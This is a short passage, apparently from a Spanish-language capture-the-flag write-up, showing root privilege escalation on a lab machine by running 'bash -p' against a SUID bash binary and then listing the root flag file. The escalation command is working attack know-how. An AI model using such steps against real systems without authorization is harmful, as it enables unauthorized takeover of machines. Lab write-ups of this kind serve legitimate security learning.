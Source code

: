 Tenemos permsios **SUID**, Ahora podemos migrar a **root**
```bash
# Comando para escalar al usuario: ( root )
docbrown@hillvalley:/usr/local/bin$ bash -p
bash-5.2#
```

---

## Evidencia de Compromiso
Flag de **root**
```bash
ls -la /root

-rw-r--r--  1 root root    35 Jul 14 20:22 root.txt
```

```bash
# Captura de pantalla o output final
bash-5.2# echo -n "[+] Hacked: $(whoami)"
[+] Hacked: root
```
